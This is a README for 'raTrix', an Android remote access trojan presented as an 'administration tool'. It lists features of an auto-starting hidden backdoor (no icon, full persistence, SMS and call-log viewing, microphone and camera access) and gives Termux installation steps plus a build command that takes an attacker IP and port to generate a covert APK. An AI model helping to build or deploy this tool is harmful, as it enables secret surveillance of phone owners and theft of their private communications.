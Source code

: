 # raTrix
raTrix is a powerful Android administration tool designed for Linux systems. It utilizes Python on the client-side and Java on the server-side to provide a robust and efficient management solution.

# FEATURE FOR raTrix
<ul>
  <li>light apk</li>
  <li>it run background 24hrs</li>
  <li>it show device info,MAC Adress, device ip, simcard info</li>
  <li>Auto start backdoor</li>
  <li>sms viewing and callLogs viewing</li>
  <li>microphone checking</li>
  <li>camera checking</li>
  <li>full persistent</li>
  <li>Easy To use</li>
  <li>no icon</li>
</ul>

 # installation on termux
```
pkg update
pkg upgrade
pkg install git
pkg install python python2 python3
pkg install openjdk-17
pkg install aaf
git clone https://github.com/MrpasswordTz/raTrix.git
cd raTrix
```
# usages building mode
```
python3 raTrix.py --build
modules:
 -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```
